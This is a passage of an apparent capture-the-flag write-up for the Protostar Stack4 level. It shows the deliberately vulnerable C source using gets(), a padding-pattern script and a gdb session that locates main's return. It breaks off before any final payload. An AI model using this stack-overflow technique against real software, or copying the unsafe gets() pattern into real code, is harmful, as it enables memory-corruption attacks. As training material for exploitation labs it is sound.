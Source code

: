 Description:

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.<br>
>This level is at /opt/protostar/bin/stack4<br><br>
>Hints:<br>
>A variety of introductory papers into buffer overflows may help.<br>
>gdb lets you do “run < input”<br>
>EIP is not directly after the end of buffer, compiler padding can also increase the size.

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Our goal in this level is still to redirect execution to the **win** function. However, unlike `Stack3`, we don't have a function pointer to manipulate. So how can we redirect our program? The answer is simple, we just need to overwrite the return address of **main** function on the stack to the address of **win** function with the help of **gets**.

I will use the script below to find out how many characters do I need for the padding.

``` shell
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

Let's run the program in `gdb`:

``` shell
user@protostar:~$ python script.py > /tmp/exp
user@protostar:~$ gdb /opt/protostar/bin/stack4
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
(gdb) break *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/24wx $esp
```